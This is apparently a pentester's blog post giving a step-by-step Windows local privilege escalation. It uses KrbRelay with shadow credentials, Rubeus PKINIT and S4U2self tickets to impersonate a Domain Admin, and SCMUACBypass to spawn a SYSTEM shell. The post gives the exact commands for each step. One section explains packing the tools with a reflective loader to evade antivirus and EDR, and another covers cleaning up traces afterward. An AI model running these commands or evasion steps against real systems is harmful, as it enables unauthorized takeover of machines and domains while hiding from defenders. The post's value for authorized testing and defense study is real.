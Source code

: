 ## No-Fix Local Privilege Escalation Using KrbRelay With Shadow Credentials

### Background (Inspiration, Overview, & WHY???)
Because who doesn't want a SYSTEM shell? Thanks to [Cube0x0](https://twitter.com/cube0x0), pentesters have been blessed with a tool called [KrbRelay](https://github.com/cube0x0/KrbRelay) that enables the exploitation of a No-Fix LPE via relaying Kerberos authentication. See below for the pre-requisites necessary for this guide:

* Domain Controller without LDAP Signing enforced (default)
* Domain Controller with its own server authentication certificate (for PKINIT authentication)
* Ability to write the msDs-KeyCredentialLink attribute of the target computer account (default)

In addition to KrbRelay, this guide will use [Rubeus](https://github.com/GhostPack/Rubeus) to request a ticket using the shadow credential and to perform a S4U2self request that will impersonate a DA user on the local machine. After the impersonated ticket is imported, we will use the [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) tool by [Tyranid](https://twitter.com/tiraniddo) to spawn a shell as SYSTEM. This process is pretty much identical to what's used in the ShadowCred mode of [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) by [dec0ne](https://twitter.com/dec0ne), so definitely check that out for more information.

### Why not just use KrbRelayUp?
**GOOD QUESTION!** KrbRelayUp is an amazing all-in-one tool. However, I noticed that certain aspects of it don't work as expected after packing it with my reflective loaders to evade AV/EDR. Specifically, I have been unable to get the SCMUACBypass implementation of KrbRelayUp to spawn a SYSTEM shell for me after being packed. 

![reflective loaders](https://i.imgur.com/fh57DT9.png)

This guide will explain how to separate the shadow credential method that KrbRelayUp uses into multiple different steps, giving you a bit more control regarding how each piece executes. For example, we can reflectively load some pieces, and execute others normally. Thanks to [an0n_r0's](https://twitter.com/an0n_r0) [guide](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9) regarding exploiting this LPE via RBCD which inspired me to make this guide for the shadow credential process.


---
### Part 0: Preparing our Tools to Evade AV/EDR
As stated earlier, this guide will focus on how to perform the LPE using shadow credentials in a REAL WORLD environment with AV/EDR enabled. Because of this, most of the tools we use will need to be packed with a reflective loader to prevent them from being blocked upon execution. Luckily, my public [Nimcrypt2 PE packer](https://github.com/icyguider/Nimcrypt2) worked very well when I was recently trying to do this against a popular EDR, so that's what I'll be using for this guide.

Below is a list of the tools required for this process that I will be packing to prevent them from being blocked:
* [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Whisker](https://github.com/eladshamir/Whisker)

These tools were packed using Nimcrypt2 with the following arguments:
```
./nimcrypt -f KrbRelay.exe -t csharp -u -e -o NimCKrbR.exe
```

The final tool we will use, [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), will NOT require packing, as it doesn't seem to get blocked from my testing with different AV & EDR solutions. My packers also seem to prevent it from working properly, so I would need to manually modify it to prevent detection if required in the future.

Now that we have all the tools we'll need ready to go, we can transfer them to our target machine and finally begin the LPE process!

---
### Part 1: Adding a Shadow Credential Using KrbRelay
The first step in this process is to add a shadow credential to our local machine using KrbRelay. This is pretty straight forward as it's documented well in the readme for KrbRelay. We will use the first example listed in the KrbRelay readme, substituting in our Domain Controller with LDAP signing disabled for the SPN. After we run this command, we should have a certificate for our shadow credential that can be used to request a Kerberos ticket for the machine account via PKINIT.
```
.\NimCKrbR.exe -spn ldap/virtualdc.testlab.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred
```
<details>
  <summary>See Screenshot</summary>

  
![krbrelay screenshot](https://i.imgur.com/acnlvYN.png)
</details>

---
### Part 2: Requesting a Machine Account Ticket via PKINIT
Once we have a certificate for our shadow credential, we can use it with Rubeus to request a Kerberos ticket for the machine account via PKINIT. The example command below will use AES256 as the encryption type in cases where RC4 isn't supported and specifies the /nowrap flag so we can more easily copy the resulting ticket. 
```
.\NimCRube.exe asktgt /user:RICHARD-PC$ /certificate:CERTIFICATE /password:PASSWORD /enctype:AES256 /nowrap
```
<details>
  <summary>See Screenshot</summary>
  
  
![Rubeus request machine account ticket via PKINIT](https://i.imgur.com/s6Mb5ls.png)
</details>

---
### Part 3: Perform S4U2self for Service Ticket Impersonating a DA 
The next part of the process is to use the ticket we obtained in the previous step to perform a S4U2self request to acquire a service ticket for the local machine impersonating a Domain Admin. Technically, any domain user that has local admin rights to the local machine can also be used for the impersonation, but I find just using a DA makes things a bit easier. We will be doing this using Rubeus while making sure to supply the /ptt flag so that the resulting service ticket is automatically imported into the current session.
```
.\NimCRube.exe s4u /self /user:RICHARD-PC$ /impersonateuser:randy /altservice:host/RICHARD-PC /ptt /ticket:TICKET
```
<details>
  <summary>See Screenshot</summary>
 
 
![Rubeus S4U2Self Request & Service Ticket Import](https://i.imgur.com/jPR02GW.png)
</details>

---
### Part 4: Spawn a SYSTEM Shell via SCMUACBypass
The final step in this process is to use the SCMUACBypass tool to spawn a shell as SYSTEM. This tool will use the imported ticket to authenticate to the local system and create a new service, so it's a good idea to check to make sure everything looks correct using the klist command before executing it. 
```
klist
.\SCMUACBP.exe
```
*BOOM SYSTEM SH3LL ! ! !*

<details>
  <summary>See Screenshot</summary>

  
![Spawn System Shell via SCMUACBypass](https://i.imgur.com/sIeeaWG.png)
</details>

---
### Part 5: Cleaning Up
This step is optional; however it is highly recommended, especially if you plan on repeating this process on the same machine later. The following command can be executed via the SYSTEM shell to clean up the service created by the SCMUACBypass tool:
```
sc delete UacBypassedService
```
Our shadow credential can be removed from the local machine by using the [Whisker](https://github.com/eladshamir/Whisker) tool. We can first run the following command to find its DeviceID:
```
.\NimCWhisker.exe list /target:RICHARD-PC$
```
The shadow credential can then be removed like so:
```
.\NimCWhisker.exe remove /deviceID:DEVICE_ID /target:RICHARD-PC$
```
<details>
  <summary>See Screenshot</summary>

  
![Spawn System Shell via SCMUACBypass](https://i.imgur.com/ZImr4wC.png)
</details>

---
### Part 6: The End!

This concludes the blog post! Please feel free to reach out to me if you have any questions or feedback. Also, I've made a quick video demonstrating this process on a fully up-to-date Windows 10 PC with Defender enabled, so definitely check that out if you're interested!: https://www.youtube.com/watch?v=TDZwx9LERFw

Big thanks to the people below for their amazing work on this topic!

* [Cube0x0](https://twitter.com/cube0x0) for [KrbRelay](https://github.com/cube0x0/KrbRelay)
* [Harmj0y](https://twitter.com/harmj0y) for [Rubeus](https://github.com/GhostPack/Rubeus)
* [Tyranid (James Forshaw)](https://twitter.com/tiraniddo) for [SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)
* [Dec0ne](https://twitter.com/dec0ne) for [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
* [Elad Shamir](https://twitter.com/elad_shamir) for [Whisker](https://github.com/eladshamir/Whisker)
* [an0n_r0](https://twitter.com/an0n_r0) for [KrbRelay with RBCD Privilege Escalation HOWTO](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
